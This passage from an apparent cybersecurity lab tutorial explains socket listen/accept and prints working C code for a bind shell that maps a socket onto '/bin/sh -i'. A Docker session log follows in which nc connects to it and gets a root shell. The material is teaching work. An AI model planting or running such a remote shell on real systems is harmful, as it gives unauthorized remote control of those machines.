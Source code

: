The bind system call does not really make the socket a listening socket (you can actually call bind on a client socket). It is the listen system call the one that makes the socket a server socket. The second parameter passed to listen is the backlog. Basically it indicates how many connections will be queued to be accepted before the server starts rejecting connections. In our case it just do not really matter.

At this point, our server is setup and we can accept connections. The call to the accept system call will make our server wait for an incoming connection. Whenever it arrives a new socket will be created to interchange data with the new client.

Similar to the client, we also include `start_shell` and `main` as follows:

```C
int
start_shell (int s)
{
  char *name[3] ;

  dup2 (s, 0);
  dup2 (s, 1);
  dup2 (s, 2);

  name[0] = "/bin/sh";
  name[1] = "-i";
  name[2] = NULL;
  execv (name[0], name );
  exit (1);

  return 0;
}

int
main (int argc, char *argv[])
{
  /* FIXME: Check command-line arguments */
  start_shell (server_init (atoi(argv[1])));
  return 0;
}
```

### Direct Remote Shell
```bash
# terminal 1
docker run --privileged -it basic_cybersecurity5:latest
root@7e837bd2c6b2:~# ./server 5000


# terminal 2
# we figure out the running docker container's ID
docker ps
CONTAINER ID        IMAGE                         COMMAND             CREATED             STATUS              PORTS               NAMES
7e837bd2c6b2        basic_cybersecurity5:latest   "bash"              24 seconds ago      Up 23 seconds                           ecstatic_golick
# get a shell into the container
$ docker exec -it 7e837bd2c6b2 bash
# get a direct remote shell
root@7e837bd2c6b2:~# nc 127.0.0.1 5000
# ls
checksec.sh
client
client.c
rp++
server
server.c
```